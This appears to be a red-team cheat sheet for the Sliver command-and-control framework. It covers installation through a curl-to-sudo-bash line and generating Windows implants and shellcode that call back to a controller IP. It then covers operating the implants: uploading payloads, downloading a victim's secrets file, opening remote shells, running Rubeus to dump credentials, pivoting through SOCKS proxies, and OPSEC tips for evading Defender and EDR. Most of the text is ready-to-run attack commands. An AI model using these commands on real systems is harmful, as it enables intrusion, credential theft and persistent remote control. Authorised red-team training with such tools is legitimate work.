

<Callout type="info" title="MITRE ATT&CK Mapping">
* [TA0011 - Command and Control](https://attack.mitre.org/tactics/TA0011/)
* [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)
</Callout>



---

## Installation & Setup

Sliver consists of a Server (Team Server) and a Client (CLI or GUI).

<Steps>
  <Step title="1. Installing Sliver">
    ```bash
    # Quick install on Linux/macOS
    curl -fsSL https://sliver.sh/install | sudo bash
    ```
  </Step>
  <Step title="2. Start the Sliver Server">
    ```bash
    # Start the Sliver Server (Terminal 1)
    sliver-server
    # You will be dropped into the sliver > prompt
    ```
  </Step>
  <Step title="3. Start the Client">
    ```bash
    # Starting the Client (Terminal 2)
    sliver-client
    ```
    <Callout type="info">You can also use the GUI client if installed, but the CLI is standard for operations.</Callout>
  </Step>
</Steps>

---

## Implants (Beacons & Sessions)

<Callout type="tip" title="Beacon vs. Session in Sliver">
* **Session:** Interactive, stateful connection (good for MTLS/WireGuard). Real-time execution.
* **Beacon:** Asynchronous, stateless connection (good for HTTP/S). Subject to jitter/interval delays.
</Callout>

<Steps>
  <Step title="1. Setting up a Listener (MTLS / HTTP)">
    Before generating an implant, you need an active listener.
    ```text
    sliver > mtls
    sliver > https -l 8443
    sliver > listeners
    ```
  </Step>
  <Step title="2. Generating the Implant">
    Generate the payload to execute on the victim.
    ```text
    # Generate an executable using MTLS (Session)
    sliver > generate --mtls 10.10.10.10 --os windows --arch amd64 --save /tmp/

    # Generate an executable using HTTPS (Beacon) with a 30s delay
    sliver > generate --http 10.10.10.10:8443 --os windows --beacon 30s --save /tmp/

    # Generate shellcode (for injection into memory)
    sliver > generate --mtls 10.10.10.10 --format shellcode --save /tmp/
    ```
    <Callout type="warning">Use `generate --help` to see evasion flags like `--obfuscate`, `--evasion`, or `--skip-symbols`.</Callout>
  </Step>
</Steps>

---

## Implant Interaction

Once the victim executes the payload, it will check in as a Session or Beacon.

<Tabs>
  <Tab title="Managing Implants">
    ```text
    sliver > sessions          # List active interactive sessions
    sliver > beacons           # List active asynchronous beacons
    sliver > use 1             # Interact with session ID 1
    ```
  </Tab>
  <Tab title="Basic Execution">
    *(Inside the Implant)*
    ```text
    sliver (IMPLANT_NAME) > info               # System info
    sliver (IMPLANT_NAME) > whoami             # Current user
    sliver (IMPLANT_NAME) > ls C:\\Users        # List directory
    sliver (IMPLANT_NAME) > cd C:\\Users        # Change directory
    sliver (IMPLANT_NAME) > upload /tmp/payload.exe C:\\Users\\Public\\p.exe
    sliver (IMPLANT_NAME) > download C:\\Users\\victim\\secrets.txt
    sliver (IMPLANT_NAME) > shell               # Drop to a interactive cmd/powershell shell
    sliver (IMPLANT_NAME) > execute -o whoami  # Execute a command and capture output
    ```
  </Tab>
  <Tab title="Executing BOFs">
    Sliver has native support for executing BOFs (like Cobalt Strike).
    ```text
    sliver (IMPLANT_NAME) > inline-execute /tmp/whoami.x64.o
    ```
  </Tab>
  <Tab title="Executing .NET Assemblies">
    *(In-Memory)*
    ```text
    sliver (IMPLANT_NAME) > execute-assembly /opt/Rubeus.exe dump
    ```
  </Tab>
</Tabs>

---

## Pivoting & Port Forwarding

Sliver allows you to route traffic through compromised hosts to reach internal networks.

<Tabs>
  <Tab title="Port Forwarding">
    ```text
    # Forward local port 8080 to internal target's port 80 through the implant
    sliver (IMPLANT_NAME) > portfwd add 8080 192.168.1.15 80

    # List active forwards
    sliver (IMPLANT_NAME) > portfwd list

    # Remove a forward
    sliver (IMPLANT_NAME) > portfwd rm 1
    ```
  </Tab>
  <Tab title="SOCKS5 Proxying">
    ```text
    # Start a SOCKS5 proxy on the server via the implant (default port 1080)
    sliver (IMPLANT_NAME) > socks5

    # Or specify a custom port
    sliver (IMPLANT_NAME) > socks5 9090
    ```
    <Callout type="info" title="Use in Kali">
    Configure `/etc/proxychains4.conf` to use `socks5 127.0.0.1 1080`, then run:
    ```bash
    proxychains nmap -Pn -sT 192.168.1.0/24
    ```
    </Callout>
  </Tab>
</Tabs>

---

## OPSEC & Evasion Notes

<Callout type="danger" title="Operational Security (OPSEC)">
* **Traffic Profiles:** Unlike Cobalt Strike's Malleable C2, Sliver relies heavily on MTLS and WireGuard, which encrypt traffic but might trigger network anomalies. Use HTTP(S) profiles with custom domains for better blending.
* **AMSI & Defender:** Sliver has built-in AMSI bypass attempts, but Windows Defender will easily catch default shellcode. Use the `--evasion` or `--obfuscate` flags during generation.
* **Process Injection:** Use `sysnative` or `migrate` commands carefully. Sliver uses `CreateRemoteThread` by default, which is heavily monitored by EDRs.
* **WireGuard:** Sliver's WireGuard transport (using `--wgs` flag) is incredibly stealthy and fast for interactive sessions, as it appears as standard UDP traffic.
</Callout>
